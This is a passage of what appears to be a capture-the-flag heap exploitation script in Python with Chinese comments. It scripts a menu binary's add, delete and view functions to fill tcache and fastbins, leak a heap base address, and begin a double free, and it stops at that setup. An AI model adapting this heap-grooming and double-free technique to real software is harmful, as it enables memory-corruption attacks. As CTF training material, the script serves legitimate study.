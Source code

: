 ```python
    ru(b">>> ")
    sl(b"1")
    ru(b"[?] please input chunk_idx: ")
    sl(str(index).encode())
    ru(b"[?] Enter chunk size: ")
    sl(str(size).encode())
    ru(b"[?] Enter chunk data: ")
    sd(content)
    print(f"----------\n添加index为:{index}的chunk\n----------")
def delete(index):
    ru(b">>> ")
    sl(b"2")
    ru(b"[?] Enter chunk id: ")
    sl(str(index).encode())
    print(f"----------\n删除index为{index}的chunk\n----------")
def view(index):
    ru(b">>> ")
    sl(b"3")
    ru(b"[?] Enter chunk id: ")
    sl(str(index).encode())
    res = rc(0x100)
    return res
def gift():
    ru(b">>> ")
    sl(b"114514")
    return (ru(b"\n"))
def getData(bytes):
    data = []
    for i in  range(int(len(bytes)/8)):
        try:
            data.append(u64(bytes[i*8:(i+1)*8]))
        except:
            print("非预期数据")
    return data


# fastbin 的合并机制需要 在申请large chunk时

# 创建unsortedbin大小占满 并且多两个chunk
for i in range(6):
    # 0x110大小chunk 8号就是我们要修改的chunk
    add(i,0x18,b"a")
for i in range(6):
    delete(i)


# 此时index为6的获取了 各个链的chunk
add(6,0x500,b"a")
print("获取一个大chunk装了heap")
res = view(6)
addr_slice = getData(res)
# 0xae4400 - 0xae4000   0x1baf400
base_heap = addr_slice[14] - 0x400
print("base_heap:",hex(base_heap))
# x/10a &chunk_list 前6号占满 但是前五个isused为0

# 开始构造double free 先是取回所有的tcache 再占满tcache
for i in range(5):
    add(i,0x18,b"a")
for i in range(5):
    delete(i)
# 此时fastbin有三个 tcache占满 我们malloc一个巨无霸然后就可以覆写fastbin fastbin情况:0xacf8e0 —▸ 0xacf8c0 —▸ 0xacf8a0 ◂— 0x0
```
